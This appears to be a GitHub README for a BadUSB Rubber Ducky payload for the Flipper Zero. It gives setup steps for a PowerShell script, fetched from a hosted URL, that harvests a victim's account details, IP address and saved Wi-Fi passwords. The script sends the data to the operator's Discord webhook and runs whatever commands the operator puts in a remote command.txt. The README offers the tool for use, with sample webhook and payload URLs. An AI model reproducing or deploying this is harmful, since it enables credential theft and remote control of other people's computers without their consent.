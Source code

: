 # RemoteHack - BadUSB Rubber Ducky Script, works on FlipperZero!

This BadUSB Rubber Ducky script is designed to swiftly collect information from a target's PC and transmit it to your personal Discord server. The script runs for approximately 3 seconds, gathering data such as username, computer name, disk location, account details, OS version, IP address, and previously signed-in Wi-Fi networks with passwords.

## How to Set Up


1. Duplicate this GitHub repository to host it online for accessibility.


2. Edit the code in the duplicated `RemoteHack.ps1` file to update the Discord webhook API credentials at line 7 and the URL to `command.txt` at line 9 with your specific information,
EXAMPLE:

`$hookUrl = "https://discord.com/api/webhooks/120056/HOw7_j7W-jMllc-uZMbCWq1DEYJUuKj"`

`$url = "https://github.com/6uard1an/Cool-FLipper-Zero-BadUSB-s/raw/main/command.txt"`


4. On your BadUSB Rubber Ducky device, install the script from `RemoteHack.txt`.


5. Replace `'link-to/RemoteHack.ps1'` in the script with the custom hosted URL of your `.ps1` file within the duplicated GitHub repository,
Example:
`link-to/RemoteHack.ps1` ==> `https://github.com/6uard1an/Cool-FLipper-Zero-BadUSB-s/raw/main/RemoteHack.ps1`


5.The updated RemoteHack.txt is your new payload file.


By following these steps, you can deploy and customize the RemoteHack script for your specific use case. Ensure that the Discord webhook and the URL to `command.txt` in your duplicated GitHub repository are correctly configured in the `.ps1` file for the script to function as intended, securely transmitting gathered information to your Discord server.
 when you edit the command.txt file from your copied repo, all running instances of the RemoteHack will execute the commands within it.
